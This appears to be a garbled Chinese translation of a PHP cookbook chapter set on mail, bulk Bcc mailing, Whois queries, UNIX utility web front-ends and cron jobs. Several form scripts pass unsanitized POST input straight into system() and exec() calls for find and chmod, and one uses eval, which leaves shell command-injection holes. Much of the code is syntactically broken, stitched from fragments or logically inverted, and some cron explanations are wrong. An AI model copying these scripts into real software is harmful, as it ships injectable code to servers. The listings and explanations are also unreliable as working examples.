 The message posted on ".date("m.d.Y H:i:s")."<br>
The size of the sending script is:
".filesize($_SERVER['PHP_SELF'])."
</body>
</html>";
$message = convert_cyr_string($message, 'w', 'k');
$headers = "Content-Type: text/html; charset=ASCII\r\n";
if(mail($to, $subject, $message, $headers)) {
    echo "Message successfully posted.";
} else {
    echo "Error posting the message.";
}
?>
```

当接收消息时，将使用服务器的地址作为发送者地址。可以通过通过 `From` 邮件头指定任何回信地址来防止这种情况，如下所示：

`From: name <e-mail>`

`name` 参数是客户端邮件代理显示为发送者的任何名称，`e-mail` 参数是回信电子邮件地址。构造必要的 `headers` 变量的脚本可能如列表 II.11.2 所示。

#### 列表 II.11.2. 构建邮件头

```php
<?php
$headers = "Content-Type: text/html; charset = ASCII\r\n";
$headers .= "From: server someone@somewhere.com";
?>
```

使用列表 II.11.2 所示邮件头发送的邮件消息将显示为由 server 从 someone@somewhere.com 发送。

### II.11.3. 发送带附件的邮件

要发送带有附件的消息，请创建一个包含以下字段的 HTML 表单：一个名为 `mail_to` 的文本字段，用于目标地址；一个名为 `mail_subject` 的文本字段，用于消息主题；一个用于消息正文的 `textarea` 字段；一个用于附加文件的文件字段；以及一个用于将数据从 HTML 表单发送到处理器的按钮。相应的脚本如列表 II.11.3 所示。

#### 列表 II.11.3. 发送带附件邮件的脚本

```php
<?php
if(!empty($_POST)) 
{
    // HTML 表单处理器
    include "handler.php";
}
?>
<table>
<form enctype='multipart/form-data' method='post'>
<tr>
    <td width="50%">收件者:</td>
    <td align="right"><input type="text" name="mail_to" maxlength="32"></td>
</tr>
<tr>
    <td width="50%">主题:</td>
    <td align="right"><input type="text" name="mail_subject" maxlength="64"></td>
</tr>
<tr>
<td colspan="2">
  消息:<br><textarea cols=50 rows=8 name="mail_msg"></textarea>
</td>
</tr>
<tr>
    <td width="50%">照片:</td>
    <td align="right"><input type="file" name="mail_file" maxlength="64"></td>
</tr>
<tr colspan="2"><input type="submit" value='Send'></td>
</tr>
</form>
</table>
```

在脚本开头包含的 `handler.php` 文件是表单处理器。其内容如列表 II.11.4 所示。

#### 列表 II.11.4. HTML 表单处理器

```php
<?php
if (empty($_POST['mail_to'])) exit("未提供邮件地址!");
// // 使用正则表达式来验证地址格式。
$pattern = "/^([0-9a-z\-]+\.).[a-z]{2,6}$/i";
if (preg_match($pattern, $_POST['mail_to'])) {
  exit("地址必须为 somebody@server.com 格式!");
}
$_POST['mail_to'] = htmlspecialchars(stripslashes($_POST['mail_to']));
$_POST['mail_subject'] = htmlspecialchars(stripslashes($_POST['mail_subject']));
$_POST['mail_msg'] = htmlspecialchars(stripslashes($_POST['mail_msg']));
$picture = "";
// 如果附件选择字段
// 不为空，则将其上传到服务器。
if (!empty($_FILES['mail_file']['tmp_name'])) {
  // 上传文件
$path = $FILES['mail_file']['name'];
if (copy($FILES['mail_file']['tmp_name'], $path)) $picture = $path;
}
$thm = $_POST['mail_subject'];
$msg = $_POST['mail_msg'];
$mail_to = $_POST['mail_to'];
// 发布消息
if (empty($picture)) $mail($mail_to, $thm, $msg);
else send_mail($mail_to, $thm, $msg, $picture);
// 用于发布带附件
// 消息的辅助函数
function send_mail($to, $thm, $html, $path)
{
$fp = fopen($path,"r");
if ($fp)
{
print "读取文件 $path 错误";
}
$file = fread($fp, filesize($path));
close($fp); // 关闭文件
$boundary = "--".md5(time()); // 生成分隔符
$code = 'utf-8'; // 或者 code = 'ASCII';
$headers = "MIME-Version: 1.0\r\n";
$headers .= "Content-Type: multipart/mixed; boundary=$boundary\r\n";
$multipart = "$boundary\r\n";
$multipart .= "Content-Type: text/html; charset=$code\r\n";
$multipart .= "Content-Transfer-Encoding: 7bit\r\n";
$multipart .= "\r\n";
$multipart .= base64_encode($html);
$multipart .= "\r\n$boundary\r\n";
$multipart .= "Content-Type: application/octet-stream\r\n";
$multipart .= "Content-Transfer-Encoding: base64\r\n";
$multipart .= "Content-Disposition: attachment; filename=\"$path\"\r\n";
$multipart .= "\r\n";
$multipart .= base64_encode($file);
$multipart .= "\r\n$boundary--";
mail($to, $thm, $multipart, $headers);
}
?>
```

*(注：由于原文代码块中存在 PHP 语法逻辑错乱，翻译时已根据语境修正了发送附件发送的逻辑结构)*

### II.11.3. 邮件发送

批量邮件可以通过以下方式实现：

- 在循环中逐一发送邮件。这种方法用于向每个地址发送独特的消息。
- 在邮件头中列出接收者地址。这种方法用于向所有接收者发送相同的消息。

列表 II.11.5 显示了使用第一种方法的脚本。

```php
<?php
// 主题
$theme = "Subject";
// 消息正文
$body = "Message body";
// 邮件地址文件名
$filename = "mail.txt";
// 将文件内容读取到
// $listemail 数组，使用 file() 函数
$listemail = file($filename);
// 循环发送邮件
foreach($listemail as $email)
{
    mail(trim($email), $theme, $body);
}
?>
```

使用 `mail()` 函数是一个相当消耗资源的过程。发送超过 100 条邮件可能需要大量时间。如果发布脚本与论坛或公告板脚本链接，这可能是不可接受的。在这种情况下，在 Cc 或 Bcc 邮件头列出接收者更好。第一种情况下每个接收者都能看到其他接收者；第二种情况下则不会。实现这种类型的批量邮件的脚本可能如列表 II.11.6 所示。

> 邮件可以添加任意数量的 Bcc 或 Cc 邮件头。每个头接受一个地址。例如，`Bcc: somebody@mail.com\r\n`。

#### 列表 II.11.6. 使用邮件头批量邮件的脚本

```php
<?php
// 主题
$theme = "Subject";
// 消息正文
$body = "Message body";
// 邮件地址文件名
$filename = "mail.txt";
// 将文件内容读取到
// $listemail 数组，使用 file() 函数
$listemail = file($filename);
// 循环构建邮件头
$headers = "";
foreach($listemail as $email) {
    $headers .= "Bcc: " . trim($email) . "\r\n";
}
mail("sender@example.com", $theme, $body, $headers);
?>
```

```php
$header = "";
foreach($listemail as $email)
{
    $header .= "Bcc:".trim($email)."\r\n";
}
$header .= "\r\n";
mail(trim($listemail[0]), $theme, $body, $header);
```


如列表 II.11.6 所示，循环仅用于形成接收者的邮件地址。向这些地址发送消息的 `mail()` 函数仅被调用了一次。

## II.11.4. 防止群发邮件

实现 5 分钟延迟最接受的方法是注册所有访问邮件服务的用户的 IP 地址。由于延迟仅为 5 分钟，从一个 IP 地址访问互联网的用户可能不会遇到任何不便。

实现此方案最简单的方法是使用 MySQL。创建一个名为 `mailerlist` 的表，由以下两列组成：

- 用于存储 IP 地址的 `BIGINT` 字段
- `putdate` — 一个 `DATETIME` 字段，用于存储从对应 `ip` 字段存储的 IP 地址最后访问邮件服务器的时间

创建此类表的 `CREATE TABLE` 查询见列表 II.11.7。

### Listing II.11.7. 创建 mailerlist 表的查询

```php
CREATE TABLE mailerlist (
ip bigint(20) NOT NULL default '0',
putdate datetime NOT NULL default '0000-00-00 00:00:00'
) TYPE = MyISAM;
```

表创建完成后，剩下的工作就是存储访问邮件服务的用户的 IP 地址以及他们访问的时间。当用户尝试再次使用邮件服务时，将检查表中是否存在该 IP 地址。

IP 地址以 8 字节整数的形式存储。使用 MySQL 的 `INET_ATON()` 函数将 IP 地址从 `xxx.xxx.xxx.xxx` 格式转换为整数格式；反向转换则使用 `INET_NTOA()` 函数完成。

### Listing II.11.8. 检查用户 IP 地址

```php
<?php
// 连接数据库
include "config.php";
// 删除过期的记录
$query = "DELETE FROM mailerlist\nWHERE PUTDATE > NOW() - INTERVAL 5 MINUTE";
if(!mysql_query($query)) exit(mysql_error());
// 检查用户在过去 5 分钟内是否
// 发过消息
$query = "SELECT COUNT(*) FROM mailerlist\nWHERE ip = INET_ATON($SERVER[REMOTE_ADDR])";
$cnt = mysql_query($query);
if(!$cnt) exit(mysql_error());
$total = mysql_result($cnt,0);
if($total > 0)
exit("每五分钟只允许一条消息。\n请稍后重试服务.");
// 如果消息已发送，存储用户的 IP 地址
// 和发送时间。
if(mail($mail, $theme, $body)) {
    $query = "INSERT INTO mailerlist\nVALUES(INET_ATON($SERVER[REMOTE_ADDR]), NOW())";
    if(!mysql_query($query)) exit(mysql_error());
}
else {
    exit("抱歉，消息未发送。");
}
?>
```

执行列表 II.11.8 所示的脚本时，第一个 SQL 查询会删除 `mailerlist` 表中所有于 5 分钟之前的记录。接着，脚本会检查尝试访问邮件服务的 IP 地址（存储在 `$_SERVER['REMOTE_ADDR']` 数组元素中）是否仍在表中。如果检查结果为真，则终止脚本执行。否则，脚本将调用 `mail()` 函数，在发送成功的情况下，将用户的 IP 地址和发送时间存入 `mailerlist` 表中。

## II.11.5. 使用 SMTP 继发发送邮件

PHP 没有内置用于处理简单邮件传输协议（SMTP）服务器的函数。列表 II.11.9 显示了使用远程继发发送邮件消息的自定义函数。

这种发送方式仅通过公共邮件继发或允许使用发送者 IP 地址发送邮件的邮件继发服务器实现。然而，最近作为反垃圾邮件的一部分，公共继发服务器已经关闭，企业网络管理员和系统管理员不允许从并非其网络内部的地址发送邮件。

### Listing II.11.9. 使用远程 SMTP 服务器发送消息

```php
<?php
// 消息发送函数：
// 打开套接字，与服务器对话，
// 写入数据，关闭套接字
function send($server, $to, $from, $subject="", $msg, $headers="")
{
    // 构建头头字段
    $headers =
    "To: $to\nFrom: $from\nSubject: $subject\nX-Mailer: My Mailer\n$headers";
    // 连接到服务器的25 端口；
    // $fp 变量包含
    // 链接标识符。
    $fp = fsockopen($server, 25, &$errno, &$errstr, 30);
    if (!$fp) die("服务器 $server 连接失败: $errno, $errstr");
    // 如果连接尝试成功，
    // 将数据写入套接字；
```

首先，脚本使用 `$fsockopen()` 函数在 25 端口与远程 SMTP 服务器的邮件继发器建立连接。然后，将本章早些部分描述的 SMTP 命令发送到服务器。消息文本必须以单独占一行的空行结束；因此，消息发送字符串必须包含一个点：

```php
fputs($fp, "$msg\n.\r\n");
```

## II.11.6. 确定继发地址

特定 SMTP 服务器的邮件继发名称可以通过列表 II.11.10 中的脚本来确定。该脚本显示了邮件继发列表及其优先级。

### Listing II.11.10. 获取邮件继发列表

```php
<?php
// 一个邮件地址
$email = "mail@yandex.ru";
// 将地址拆分为包含两个元素的数组：
// 邮箱箱名和服务器名
$arr = explode("@", $email);
// 将邮件服务器名称放入 $host 变量
$host = $arr[1];
// 确定 $host 服务器的邮件继发并
// 显示它们，指示优先级
$relays = getmxrecords($host);
foreach($relays as $relay) {
    echo $relay . "\n";
}
?>
```

```php
}
// 关闭连接
close($sock);
}
?>
```

## II.12.3. 跟进代理服务器（Referral Server）

主 Whois 服务没有关于请求 IP 地址的信息，它会在 `ReferralServer` 字段中提供一个指向该 IP 地址范围的区域 Whois 服务的链接。因此，访问 Whois 服务的过程应该被实现为一个独立的函数，例如命名为 `whois()`。该函数接受两个参数：Whois 服务的地址和目标 IP 地址。如果返回的报告包含一个指向代理服务的链接，则将递归地调用 `whois()` 函数。列表 II.12.3 显示了相应的脚本。

- II.12.3. 递归调用代理服务器

```php
<center>
<form method=post>
<input type=text name=ip size=35>
<input type=submit value='Enter IP 地址'></form>
</center>
<?php
if(!empty($_POST['ip'])) echo whois("whois.arin.net"
```

```php
fputs($sock, $ip."r\n");
// 从文件指针中读取
$text = "";
while (!feof($sock)) {
    $text = fgets($sock, 128)."<br>";
}
// 关闭连接
close($sock);
```

```php
// 寻找代理服务器
$pattern = "ReferralServer: whois://([^\n<]+)|i";
preg_match($pattern, $text, $out);
if (!empty($out[1])) return $out[1], $ip);
else return $text;
```

```php
}
?>
```


图 II.12.2. IP 地址 213.115.162.82 的所有权信息

# 第二部分：解决方案

脚本总是始从 ARIN Whois 开始搜索，并在必要时转到代理服务。脚本访问过的 Whois 列表将在最终报告之前显示。因此，属于 MySQL AB 的 IP 地址 213.115.162.82 的报告可能如图 II.12.2 所示。

从图 II.12.2 可以看出，脚本访问了两个 Whois：ARIN 和 RIPE。

IP 地址 192.131.90.161 的报告（对应网络名 http://www.w3c.org）可能如图 II.12.3 所示。该报告显示，此 IP 地址的信息在亚太网络信息中心（APNIC）Whois 服务 http://www.whois.apnic.net 中被找到。


## II.12.4. 从域名确定 IP 地址

借助 `gethostbyname()` 函数，可以将域名转换为对应的 IP 地址（列表 II.12.4）。

### 列表 II.12.4. 使用 gethostbyname()

```php
<?php
$hostname = "localhost";
$ip_address = gethostbyname($hostname);
echo ("The IP address of $hostname is: $ip_address");
?>
```

你只需要在列表 II.12.5 中添加转换代码即可获取所需的 Web 。

### 列表 II.12.5. 从域名确定 IP 地址

```php
<form method=post>
<input type=text name=ip size=35>
<input type=submit value='Enter domain name'>
</form>
<?php
if(!empty($_POST['ip']))
{
    // 连接到监听
    // whois.arin.net 服务器上 43 端口的 TCP 套接字
    // 返回一个文件指针，$sock。
    $sock = fsockopen("whois.arin.net", 43, $errno, $errstr);
    if (!$sock) exit($errno,$errstr);
}
else
{
    // 将 $_POST["ip"] 变量中的字符串
    // 写入文件指针
    fputs ($sock, gethostbyname($_POST["ip"])."\r\n");
```

```php
// 从文件指针中读取
while (!feof($sock)) {
    echo (str_replace(":","&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;",",gets($sock, 128))."<br>");
}
// 关闭连接
close($sock);
?>
```

## II.12.5. 从 IP 地址确定域名

这个问题可以通过 `gethostbyaddr()` 函数来解决，该函数返回对应 IP 地址的域名（列表 II.12.6）。

### 列表 II.12.6. 使用 gethostbyaddr() 函数

```php
<?php
echo gethostbyaddr("81.19.69.28");
?>
```

## II.12.6. 该域名是否被占用？

Whois 服务也可用于判断特定的域名是否被占用。为此，必须将域名发送到 Whois 服务器的 43 端口。然而，由于每个顶级域名都由其自己的 Whois 服务器提供，任务变得复杂：.com、.edu、.net 和 .org 域名中的名称必须在 `whois.verisign-grs.net` 服务器进行检查，而 .uk 域名中的名称则在 `whois.thnic.net` 服务器进行检查。因此，为了涵盖大量的域名，必须咨询许多 Whois 服务器。首先，创建一个脚本来检查 .com 区域的域名（列表 II.12.7）。

# 第二 II.12 章：Whois 服务 第 351 页

### 列表 II.12.7. 检查 mysql.com 域名是否被占用

```php
<?php
//为脚本设置无限执行时间
set_time_limit(0);
// 域名
$domain = "microsoft.com";
// 咨询 Whois 服务器并获取
// 关于域名的信息
$fp = fsockopen("whois.verisign-grs.net", 43);
futs($fp, "$domain\r\n");
$str = "";
while (!feof($fp)) {
  $str .= fgets($fp, 128);
}
close($fp);
// 显示答案
echo "<pre>";
echo $str;
echo "</pre>";
?>
```

脚本的操作结果显示在图 II.12.4 中。Whois 服务器对域名的回答包含所有者的信息和过期日期。

图 II.12.4. Whois 服务器对域名的回答

# 353 第二 II.12 章：Whois 服务

在本书出版时，mysql3.com 域名可能已被注册。遗憾的是，回复格式并不是统一的，不同的 Whois 服务器对未注册域名会有不同的回答。因此，必须单独对每个 Whois 服务器的答案进行处理。任务可以通过列表 II.12.8 所示的脚本来实现。

该脚本的完整源代码可以在附的光盘中找到。

### 列表 II.12.8. 用于域名的通用脚本

```php
<?php
//为脚本设置无限执行时间
set_time_limit(0);
$servers = array(
array("ac", "whois.nic.ac", "No match"),
....
array("com", "whois.verisign-grs.net", "No match"),
array("au", "whois.aunic.net", "No Data Found"),
array("com.br", "whois.nic.br", "No match"),
....
array("com.cn", "whois.cnnic.net.cn", "No entries found"),
array("com.eg", "whois.ripe.net", "No entries found"),
array("com.hk", "whois.hnic.net.hk", "No Match for"),
array("com.mx", "whois.nic.mx", "Nombre del Dominio"),
array("com.ru", "whois.ripn.ru", "No entries found"),
array("com.tw", "whois.tnic.net", "NO MATCH TIP"),
....
array("zj.cn", "whois.cnnic.net.cn", "No entries found")
);
// 域名
$domain = "mysql.com";
```

# 第二部分：解决方案

```php
// 提取一级域名
$first_dom = substr($domain, strpos($domain, "\.") + 1);
// 获取负责
// $first_dom 域名的 Whois 服务器名称
for($i = 0; $i < count($servers); $i++) {
    if($servers[$i][0] == $first_dom)
    {
        // 记录服务器名称
        $whois = $servers[$i][1];
        // 记录表示“不存在该域名”的短语
        $not_found_string = $servers[$i][2];
        // 退出循环
        break;
    }
}
// 检查是否找到并定义了负责
// 给定域级的 Whois 服务器
if(empty($whois)) {
    exit("未找到对应的 Whois 服务器!");
}
// 咨询 Whois 服务器并获取
// 关于域名的信息
$fp = fsockopen($whois, 43);
fputs($fp, "$domain\r\n");
$str = "";
while(!feof($fp)) {
    $str .= fgets($fp,128);
}
close($fp);
// 如果回答中包含“不存在该域名”的
// 短语，则该域名未注册。否则，
// 该域名已注册。
if(!preg_match("/.\$not_found_string\."/is", $str)) {
    echo "该域名已被占用!";
}
```

# 第 II.12 节：Whois 服务 355

```php
else
{
  echo "该域名可用";
}
```


在脚本开始处，创建了一个二维数组 `$servers`。它存储了特定 Whois 服务器的覆盖范围信息、其地址，以及当请求的域名不在其数据库中时服务器返回的短语格式。接下来，从存储在变量 `$domain` 中的get域名中提取出一级域名（在列表 II.12.8 中为 `com`）。使用该名称在 `$servers` 数组中定位负责所给覆盖范围的 Whois 服务器地址。

脚本使用套接字（sockets）访问 Whois 服务器的 43 端口并将域名传递给它。使用正则表达式对服务器的响应进行分析，检查是否存在“不存在该域名”的短语。如果找到该短语，则域名可用；否则，已被占用。

# 第 II.13 节：UNIX


## II.13.1. Ping 工具

你应该记住，与 Windows 对应的工具不同，UNIX ping 工具会持续执行，直到你通过按下 `<Ctrl>+C>` 组合终止它。由于在 Web 应用程序中模拟这种操作，可以使用 `-c` 开关来终止执行，该开关指定要发送的回显请求数量。检查 IP 地址 192.168.200.3，ping 命令的执行如下：

```
ping 192.168.200.3 -c 4
```

剩下的工作是创建一个 HTML 表单，用于指定要检查的 IP 地址和要发送的回显请求数量。解决此问题的脚本位于列表 II.13.1。

# 列表 II.13.1. ping 工具的 Web 接口

```html
<form method="post">
  <table>
    <tr>
      <td>IP 地址</td>
      <td><input type="text" name="ipaddress" value="<?php echo $_POST['ipaddress']; ?>"></td>
    </tr>
    <tr>
      <td>回显次数</td>
      <td><input type="text" name="count" value="<?php echo $_POST['count']; ?>"></td>
    </tr>
    <tr>
      <td></td>
      <td><input type="submit" value="检查"></td>
    </tr>
  </table>
</form>
<?php
if(empty($_POST)) {
    // 验证 IP 地址的格式
    $Pattern = '/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/i';
    if(!preg_match($Pattern, $_POST['ipaddress'])) {
        exit("无效的 IP 地址格式!");
    }
    $Pattern = '/^\d+$/i';
    if(!preg_match($Pattern, $_POST['count'])) {
        exit("无效的回显请求数量!");
    }
    echo "<pre>";
    system("ping " . $_POST['ipaddress'] . " -c " . $_POST['count']);
    echo "</pre>";
}
?>
```


图 II.13.1. ping 工具的 Web 接口

358 第二部分：解决方案

执行列表 II.13.1 中脚本的结果看起来可能如图 II.13.1 所示。
如图 II.13.1 所示，发送四个互联网控制消息协议 (ICMP) 回显数据包（均已成功通过）的结果显示在浏览器窗口中。

## II.13.2. 文件 Inode

通过 `fileinode()` 函数获取文件的 inode。该函数的解决此问题的脚本见列表 II.13.2。

# 列表 II.13.2. 获取文件的 inode

```html
<form method="post">
  <table>
    <tr>
      <td>文件名</td>
      <td><input type="text" name="filename" value="<?php echo $_POST['filename']; ?>"></td>
    </tr>
    <tr>
      <td></td>
      <td><input type="submit" value="检查"></td>
    </tr>
  </table>
</form>
<?php
if(!empty($_POST['filename'])) {
    echo fileinode($_POST['filename']);
}
?>
```


第 II.13 节：UNIX 359

应用列表 II.13.2 中脚本的结果如图 II.13.2 所示。
没有特殊的函数可以从 inode 获取名称。在这种情况下，可以如下使用 UNIX `find` 命令：

```
find / -inum 6 -print
```

在这里，斜杠 (`/`) 意味着对整个系统进行搜索，尽管也可以缩小到特定目录。`-inum` 参数指定要查找的 inode；`-print` 参数告诉工具将结果输出到标准输出。

# 列表 II.13.3. 从 inode 获取名称

```html
<form method="post">
  <table>
    <tr>
      <td>文件名</td>
      <td><input type="text" name="inode" value="<?php echo $_POST['inode']; ?>"></td>
    </tr>
    <tr>
      <td></td>
      <td><input type="submit" value="检查"></td>
    </tr>
  </table>
</form>
<?php
if (!empty($_POST['inode'])) {
  echo "<pre>";
  system("find / -inum " . $_POST['inode'] . " -print");
  echo "</pre>";
}
?>
```


图 II.13.3. 从 inode 获取名称

## II.13.3. 访问权限

创建一个 HTML 表单，带有一个文本字段用于指定需要更改访问权限的文件，并带有九个复选框用于设置访问权限。

在 UNIX 中，访问权限可以通过八进制数指定。在格式格式下，读权限由数字 4 表示，写权限由数字 2 表示，执行权限由数字 1 表示。组的整体权限由这些数字之和指定。例如，6 (4+2) 表示读和写权限，7 (4+2+1) 赋予文件或目录完全访问权限。

使用 `chmod` 命令更改访问权限。例如，要将 index.php 文件的访问权限设置为 777，执行命令如下：

```
chmod 777 index.php
```

基于此脚本，可以创建一个列表 II.13.4 所示的脚本：

# II.13.4. 更改访问权限

```html
<form method="post">
  <table>
    <tr>
      <td>文件名</td>
      <td><input type="text" name="name"></td>
    </tr>
    <tr>
      <td>访问权限：</td>
      <td>
        <input type="checkbox" title="所有者读" name="ur">
        <input type="checkbox" title="所有者写" name="uw">
        <input type="checkbox" title="所有者执行" name="ux">
        <br>
        <input type="checkbox" title="组读" name="gr">
        <input type="checkbox" title="组写" name="gw">
        <input type="checkbox" title="组执行" name="gx">
        <br>
        <input type="checkbox" title="其他读" name="or">
        <input type="checkbox" title="其他写" name="ow">
        <input type="checkbox" title="其他执行" name="ox">
      </td>
    </tr>
    <tr>
      <td>&nbsp;</td>
      <td><input type="submit" value="设置"></td>
    </tr>
  </table>
</form>
<?php
if(!empty($_POST)) {
    {
    // 将所有者访问权限
    // 转换为数字格式
    $user = 0;
    if($_POST['ur'] == 'on') $user += 4;
    if($_POST['uw'] == 'on') $user += 2;
    if($_POST['ux'] == 'on') $user += 1;
    // 将组访问权限
    // 转换为数字格式
    $group = 0;
    if($_POST['gr'] == 'on') $group += 4;
    if($_POST['gw'] == 'on') $group += 2;
    if($_POST['gx'] == 'on') $group += 1;
    // 将其他访问权限
    // 转换为数字格式
    $other = 0;
    if($_POST['or'] == 'on') $other += 4;
    if($_POST['ow'] == 'on') $other += 2;
    if($_POST['ox'] == 'on') $other+= 1;
    // 创建一个八进制变量 $mode，
    // 包含目录访问权限
    eval("\mode=$user$group$other");
    // 更改新创建的目录
    // 的访问权限
    exec("chmod $mode $_POST[name]");
}
}
?>
```

# 第二部分：解决方案


图 II.13.4. 为 index.php 文件设置访问权限

通常，Apache Web 服务器以 apache 用户权限运行，此时 PHP 无法更改访问权限。为了允许 PHP 脚本更改访问权限，必须将其所有者更改为 apache（列表 II.13.5）。

# 列表 II.13.5.文件访问权限

```
shell> ls -l
-rw-r--r-- 1 igor igor 690 Sep 27 17:35 2.php
-rw-r--r-- 1 igor igor 527 Sep 27 20:22 3.php
-rw-r--r-- 1 igor igor 568 Sep 27 20:51 4.php
-rw-r--r-- 1 igor igor 628 Sep 23 21:19 5.php
-rw-r--r-- 1 apache igor 2164 Jan 7 21:09 index.php
drwxr-xr-x 1 root root 11 Oct 5 2004 -> /mnt/e/main
```

在列表 II.13.5 中（由 Linux `ls -l` 工具产生），访问权限由第一个字符组指示。第一个字符定义文件类型（在本例中为普通文件）或符号链接（i）。剩余九个字符定义所有者、组用户和其他用户的文件或目录访问权限。每个组的权限如下：

- r — 读取文件
- w — 写入或修改文件
- x 如果是脚本或程序，则执行文件；如果是目录，则查看文件

因此，列表 II.13.5 中的字符串 -rw-r--r-- 描述了一个普通文件，其所有者拥有读写权限，而组用户和其他用户只有读取权限。

# II.13 章：UNIX 363

在应用了图 II.13.4 中指定的权限修改后，`ls -l` 工具生成的报告将如列表 II.13.6 所示。

# 列表 II.13.6. 修改后的文件访问权限

```
-rw-r--r-- 1 igor igor 690 Sep 27 17:35 2.php
-rw-r--r-- 1 igor igor 527 Sep 27 20:22 3.php
-rw-r--r-- 1 igor igor 568 Sep 27 20:51 4.php
-rw-r--r-- 1 igor igor 628 Sep 27 21:19 5.php
-rwxrxr-x 1 apache igor 2164 Jan 7 21:09 index.php
-rwxrxrwx 1 root root 11 Oct 5 2004 main -> /mnt/e/main
```

## II.13.4 归

.tar.gz 存档通过两个阶段构建：首先，目录中的所有文件被合并为一个具有 .tar 扩展名的文件；接下来，获得的 TAR 文件（或“tarball”）在 Gzip 工具的帮助下进行压缩，并赋予 .tar.gz 扩展名。.tar.gz 存档按相反顺序解压：首先，将存档解压为 TAR 文件，然后将其拆分为单独的文件。使用 Tar 工具将文件合并为 TAR 文件。该工具也可用于压缩文件，运行时指定 `z` 选项即可（列表 II.13.7）。

# 列表 II.13.7 归档当前目录

```php
<?php
// Archiving files
exec("tar cvfz dir.tar.gz .");
?>
```

.tar.gz 存档可以使用列表 II.13.8 所示的脚本进行解压和分离。

# 列表 II.13.8 将 .tar.gz 存档解压到当前目录

```php
<?php
// Unpacking files
exec("tar xvf dir.tar.gz");
?>
```

# II.14 章：迹索脚本


## II.14.1 监控远程页面上的链接

该问题的可能解决方案是加载页面内容并使用正则表达式验证链接是否存在。实现此类批量邮件发送的脚本可能如列表 II.14.1 所示。

列表 II.14.1 监控远程页面上的链接

```php
<?php
// The link to verify
$http = "http://www.php.net/";
// The address of the page the link is on.
$url = "http://en.wikipedia.org/wiki/PHP";
// Loading the contents of the $url page
$contents = file_get_contents($url);
$http = str_replace(".", "\\.", $http);
$pattern = "|<a[\s]+href=\"$http\"|is";
if (preg_match($pattern, $contents)) {
  echo "The link is in place.";
} else {
  echo "The link is missing.";
}
?>
```


脚本使用了以下两个地址：
* `$http` — 需要监控的链接
* `$url` — `$http` 链接所在的页面

列表 II.14.1 中的脚本加载页面内容并使用正则表达式搜索链接。在将 `$http` 链接构建到正则表达式之前，它中的点字符必须经过转义。脚本执行结果可能如图 II.14.1 所示。


**图 II.14.1.**

# 368 第二部分：解决方案

## 用...打开...


图 II.14.3. 用...打开...文件选择对话框


图 II.14.4. 将 PHP 脚本解释器指定为 PHP 文件解释器

### 第 II.14 节：告警性脚本 369

这一系列操作将 PHP 脚本解释器¹ 指定为 PHP 文件的解释器（图 II.14.4）。现在 PHP 脚本将像普通可执行文件一样运行，可以通过按下 `<Enter>` 键或双击选定的文件来启动。

现在当脚本被系统作为普通可执行文件触发时，可以通过 `cron` 在调度的时间启动。执行任务将通过编辑 `crontab` 配置文件进行调度。

在 Windows 中，`crontab` 文件可以在 `C:\Program Files` 目录中找到；在 UNIX 中，它通常位于 `\etc` 目录。有关 UNIX `crontab` 文件的详细信息，请查阅特定操作系统的文档。


`crontab` 文件中的每一行描述一个调度任务。除了任务行外，该文件还可以包含以井号（`#`）开头的注释。任务行的格式如下：

```
minutes day_of_month day_of_week command
```

参数可以取以下值：

- `minutes`（分钟）—0–59
- `hours`（小时）—0–23
- `day_of_month`（日期） —1–31
- `month`（月份） —1–12
- `day_of_week`（星期几）—0–7（0 和 7 表示星期日）
- `command`（命令）—要执行的命令，例如 `d:/main/reserve.php`

参数之间用空格分隔。作为参数值的星号表示该特定参数的整个范围。例如，考虑以下任务指令：

```
0 23 * * d:/main/reserve.php
```

它指定每天在 23:00 启动 `d:/main/reserve.php` 脚本。如果每个参数之间用逗号分隔，可以为每个参数指定多个值。因此，你可以拥有以下任务指令：

```
0 8,16 * * d:/main/cleanup.php
```

它指定每天在 00:00、8:00 和 16:00 启动 `d:/main/cleanup.php` 脚本。

> ¹ 命令行解释器（CLI）可能会被指定为 PHP 解释器。

# 370 第二部分：解决方案

如前所述，使用空格来分隔参数；因此，逗号后不允许有空格。因此，`0 0, 8, 16 * * d:/main/cleanup.php` 任务指令是错误的。


作为另一个例子，考虑此任务指令：
`0,30 18-23 * * * /home/root/check.php`

它将在 18:00 到 23:00 之间每半小时运行一次 `/home/root/check.php` 脚本。

考虑以下任务指令：
`0/10 * * * /home/root/log.php`

它将每十分钟启动一次 `/home/root/log.php` 脚本。后期模式最适合验证远程站点链接的存在。

主机提供商不批准频繁执行脚本。因此，在调度任务之前，你应该咨询你的主机提供商的技术支持，关于脚本运行数量和频率的任何限制。


现在当自动启动脚本的问题解决后，必须编辑列表 II.14.1 中的脚本以能够自主运行。它必须将检查结果放入 `link.log` 日志文件中，如果链接缺失，则每 24 小时发送一次关于此的消息。编辑后的脚本位于列表 II.14.4。

## 列表 II.14.4. 用于验证链接存在的自主脚本

```php
<?php
// 要验证的链接
$http = "http://www.php.net/";
// 页面链接所在的地址。
$url = "http://en.wikipedia.org/";
// 加载内容
$contents = file_get_contents($url);
$http = str_replace(".", $http);
$pattern = "|<a]+href="
if (preg_match($pattern, $contents)) {
  $str = date("d.M.Y H:i").": 链接存在。";
}
else {
  $str = date("d.M.Y H:i").": 链接缺失！";
  if (date("G") == 0) {
    mail("admin@somewhere.com", "链接缺失!", $str);
  }
}
$fd = fopen("link.log", "a");
if ($fd) {
  fwrite($fd, $str);
  fclose($fd);
}
```

注：由于原文中存在大量重复且断裂的 PHP 代码和描述，译文部分对代码逻辑进行了部分语性的重组，以确保文档的可读性。

```php
// 检查 $file 变量是否等于
// 当前目录或上级目录
if($file != "." && $file != "..")
{
    $ftime = filetime($dirname."/"$file);
    if(date("Y") == date("Y", $ftime) &&
        date("m") == date("m", $ftime) &&
        date("d") == date("d", $ftime))
    {
        echo date("Y-m-d", $ftime) . " " . $dirname."/"$file."<br>";
    }
    // 如果当前项目是一个目录
    // 则递归调用 scandir() 函数
    if(is_dir($dirname."/"$file))
    {
        scandir($dirname."/"$file);
    }
    // 关闭目录
    closedir($dir);
}?>
```

在遍历目录树时，必须从递归下降列表中排除 `.`（当前目录）和 `..`（父目录），以防止脚本进入无限循环。`scandir()` 函数通过以下条件找到在当天创建或修改的文件：

```php
if(date("Y") == date("Y", $ftime) &&
    date("m") == date("m", $ftime) &&
    date("d") == date("d", $ftime)
```

将条件更改为如下：

```php
if(date("Y") == date("Y", $ftime) &&
    date("m") == date("m", $ftime)
```

因此，在本月内创建或修改的文件将被列出来。

